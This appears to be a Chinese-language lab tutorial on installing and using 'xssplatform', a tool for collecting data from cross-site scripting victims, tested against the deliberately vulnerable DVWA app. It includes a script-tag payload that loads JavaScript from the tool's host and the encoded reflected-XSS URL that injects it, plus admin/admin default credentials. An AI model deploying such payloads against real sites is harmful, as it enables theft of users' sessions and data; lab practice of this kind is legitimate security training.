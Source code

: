 一个经典的XSS渗透管理平台

## 1.  install

安装依赖

```
┌──(root㉿Kali-24)-[~]
└─# apt -y install lsb-release apt-transport-https ca-certificates
```

下载 PHP 软件包的数字签名

```
┌──(root㉿Kali-24)-[~]
└─# wget -O /etc/apt/trusted.gpg.d/php.gpg https://packages.sury.org/php/apt.gpg
```

添加 php 源

```
┌──(root㉿Kali-24)-[~]
└─# echo "deb https://packages.sury.org/php/ buster main" >/etc/apt/sources.list.d/php.list
```

获取更新列表

```
┌──(root㉿Kali-24)-[~]
└─# apt update
```

下载 libffi6_3.2.1-9_amd64.deb

```
┌──(root㉿Kali-24)-[~]
└─# wget http://ftp.us.debian.org/debian/pool/main/libf/libffi/libffi6_3.2.1-9_amd64.deb
```

> http://ftp.us.debian.org/debian/pool/main/libf/libffi/

安装 libffi6

```
┌──(root㉿Kali-24)-[~]
└─# dpkg -i libffi6_3.2.1-9_amd64.deb
```

安装 php7.4

```
┌──(root㉿Kali-24)-[~]
└─# apt install -y php7.4-fpm php7.4-mysql
```

使 php7.4 开机自启

```
┌──(root㉿Kali-24)-[~]
└─# systemctl enable --now php7.4-fpm.service
```

上传 nginx 配置文件 xuegodxss，移动站点启用目录中

```
┌──(root㉿Kali-24)-[~]
└─# mv xuegodxss /etc/nginx/sites-enabled/
```

修改配置文件 xuegodxss

```
┌──(root㉿Kali-24)-[~]
└─# sed -i 's/server_name xuegodxss\.cn;/server_name 192.168.1.24;/g' /etc/nginx/sites-enabled/xuegodxss
```

启动 nginx 服务

```
┌──(root㉿Kali-24)-[~]
└─# systemctl enable --now nginx.service
```

下载 XSSPlatform

```
┌──(root㉿Kali-24)-[~]
└─# git clone https://github.com/78778443/xssplatform.git
```

> 使用代理记得移除

移动 XSS 平台到站点根目录

```
┌──(root㉿Kali-24)-[~]
└─# mv xssplatform /var/www/html/xssplatform
```

修改文件权限

```
┌──(root㉿Kali-24)-[~]
└─# chown www-data:www-data -R /var/www/html
```

kali 浏览器访问

> http://192.168.1.24/

配置数据库连接信息和管理员账户

| 配置       | 信息        |
| ---------- | ----------- |
| 数据库地址 | 127.0.0.1   |
| 数据库用户 | root        |
| 数据库密码 | mysql       |
| 数据库     | xssplatfrom |
| 管理员     | admin       |
| 管理员密码 | admin       |

## 2. use

启动 Nginx

```
┌──(root㉿Kali-24)-[~]
└─# systemctl start nginx.service
```

登录

>http://192.168.1.24/
>
>管理员  	admin
>管理员密码	admin

查看代码

![查看代码](./../../../../../image/xssplatform/%E6%9F%A5%E7%9C%8B%E4%BB%A3%E7%A0%81.png)

> XSS 平台提供一个 js 代码，只需要通过 XSS 加载 js 代码即可使用，和 beef-xss 非常像

选择代码

![选择代码](./../../../../../image/xssplatform/%E9%80%89%E6%8B%A9%E4%BB%A3%E7%A0%81.png)

```
<script src=http://192.168.1.24/Q7yYOv?1687665509></script>
```

登录 DVWA

> http://192.168.1.76/DVWA/

> admin
>
> password

进入 `XSS (Reflected)`

提交代码

查看地址栏

```
http://192.168.1.76/DVWA/vulnerabilities/xss_r/?name=%3Cscript+src%3Dhttp%3A%2F%2F192.168.1.24%2FQ7yYOv%3F1687665509%3E%3C%2Fscript%3E#
```

在 XSS 平台查看接受的内容

![在 XSS 平台查看接受的内容](./../../../../../image/xssplatform/%E5%9C%A8%20XSS%20%E5%B9%B3%E5%8F%B0%E6%9F%A5%E7%9C%8B%E6%8E%A5%E5%8F%97%E7%9A%84%E5%86%85%E5%AE%B9.png)

---

References

- [xssplatform](https://github.com/78778443/xssplatform)